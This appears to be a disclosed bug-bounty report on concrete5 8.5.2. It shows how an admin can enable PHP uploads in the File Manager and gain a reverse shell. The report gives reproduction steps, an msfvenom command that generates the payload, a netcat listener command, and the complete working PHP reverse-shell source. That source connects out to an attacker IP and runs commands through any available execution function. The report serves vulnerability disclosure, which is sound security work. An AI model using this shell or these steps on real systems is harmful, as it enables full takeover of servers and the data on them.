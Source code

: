 # Remote Code Execution (Reverse Shell) - File Manager

## Report Details
- **Report ID**: 768322
- **URL**: https://hackerone.com/reports/768322
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-05T02:58:26.611Z
- **Disclosed**: 2020-07-21T13:23:24.273Z

## Reporter
- **Username**: javakhishvili
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
Remote Code Execution (Reverse Shell) - File Manager

• Title: concrete5-8.5.2 Remote Code Execution - Reverse Shell
• Keyword: crayons
• Software : concrete5
• Product Version: 8.5.2
• Vulnerability : Remote Code Execution - Reverse Shell
• Vulnerable component: File Manager

The attacker needs the appropriate permissions (Admin role) in order to edit and allow other file types (file extension). If the file type such as PHP is added then the user will be able to upload PHP shell to access underline server system and gain full server/system control. It was possible to upload Reverse shell and gain the full system shall.

Reverse shell is mechanism that allow you to have the server shell by exploiting the web server to trigger a connection back. The attacker would be able to take full control over the web server (system).

 - Steps to reproduce:
1. Login as admin user or any user which would have access to the 'Allow File types' feature to add PHP extension.
2. Visit 'Allow File Types'  (see screenshot 1) F675561
3. Once you click on 'Allow File Types' you will be presented with list of file types allowed. Add php there (see screenshot 2) F675563
4. Once saved, now visit the File Manager to upload the PHP shell (I will post PHP shell code below) (see screenshot 3) F675566
5. Now we need to generate our PHP shell (I will paste full PHP shell below) or with Metasploit's Msfvenom we can generate it with following 
    command:   msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=1234 > shell.php
6. Once you have PHP shell generated now time to upload the file.  Now drag and drop your shell here, and once you see greenline under the image it means the file was uploaded successfully and now click close (see screenshot 4) F675567
7. Once you click on close you will notice little properties, and there are the link for the file. Before you click on the link make sure you have Netcat listener setup so it is waiting for incoming signal. command for it: nc -nlvp 1234 (see screenshot 5) F675572
8. Now we have attacker machine sitting and listening on port 1234 now its time to click on the link to trigger the reverse shell (see screenshot 6) F675574
9. Once click on the link you can see in scressnshot 7 that we the attacker machine received reverse system shell with full control over the system. We can now browser through the remote system (see screenshot 7) F675575




#This is the PHP shell generated by the above mentioned command:


    /*<?php /**/
      @error_reporting(0);
      @set_time_limit(0); @ignore_user_abort(1); @ini_set('max_execution_time',0);
      $dis=@ini_get('disable_functions');
      if(!empty($dis)){
        $dis=preg_replace('/[, ]+/', ',', $dis);
        $dis=explode(',', $dis);
        $dis=array_map('trim', $dis);
      }else{
        $dis=array();
      }
      
    $ipaddr='192.168.112.143';
    $port=1234;

    if(!function_exists('wjfzHmO')){
      function wjfzHmO($c){
        global $dis;
        
      if (FALSE !== strpos(strtolower(PHP_OS), 'win' )) {
        $c=$c." 2>&1\n";
      }
      $vQaTydS='is_callable';
      $ONlOW='in_array';
      
      if($vQaTydS('proc_open')and!$ONlOW('proc_open',$dis)){
        $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);
        $o=NULL;
        while(!feof($pipes[1])){
          $o.=fread($pipes[1],1024);
        }
        @proc_close($handle);
      }else
      if($vQaTydS('exec')and!$ONlOW('exec',$dis)){
        $o=array();
        exec($c,$o);
        $o=join(chr(10),$o).chr(10);
      }else
      if($vQaTydS('system')and!$ONlOW('system',$dis)){
        ob_start();
        system($c);
        $o=ob_get_contents();
        ob_end_clean();
      }else
      if($vQaTydS('shell_exec')and!$ONlOW('shell_exec',$dis)){
        $o=shell_exec($c);
      }else
      if($vQaTydS('popen')and!$ONlOW('popen',$dis)){
        $fp=popen($c,'r');
        $o=NULL;
        if(is_resource($fp)){
          while(!feof($fp)){
            $o.=fread($fp,1024);
          }
        }
        @pclose($fp);
      }else
      if($vQaTydS('passthru')and!$ONlOW('passthru',$dis)){
        ob_start();
        passthru($c);
        $o=ob_get_contents();
        ob_end_clean();
      }else
      {
        $o=0;
      }
    
        return $o;
      }
    }
    $nofuncs='no exec functions';
    if(is_callable('fsockopen')and!in_array('fsockopen',$dis)){
      $s=@fsockopen("tcp://192.168.112.143",$port);
      while($c=fread($s,2048)){
        $out = '';
        if(substr($c,0,3) == 'cd '){
          chdir(substr($c,3,-1));
        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
          break;
        }else{
          $out=wjfzHmO(substr($c,0,-1));
          if($out===false){
            fwrite($s,$nofuncs);
            break;
          }
        }
        fwrite($s,$out);
      }
      fclose($s);
    }else{
      $s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
      @socket_connect($s,$ipaddr,$port);
      @socket_write($s,"socket_create");
      while($c=@socket_read($s,2048)){
        $out = '';
        if(substr($c,0,3) == 'cd '){
          chdir(substr($c,3,-1));
        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
          break;
        }else{
          $out=wjfzHmO(substr($c,0,-1));
          if($out===false){
            @socket_write($s,$nofuncs);
            break;
          }
        }
        @socket_write($s,$out,strlen($out));
      }
      @socket_close($s);
    }

?>

## Impact

Reverse shell is mechanism that allow you to have the server shell by exploiting the web server to trigger a connection back. The attacker would be able to take full control over the web server (system).

## Attachments
- 1.png
- 2.png
- 3.png
- 4.png
- 5.png
- 6.png
- 7.png
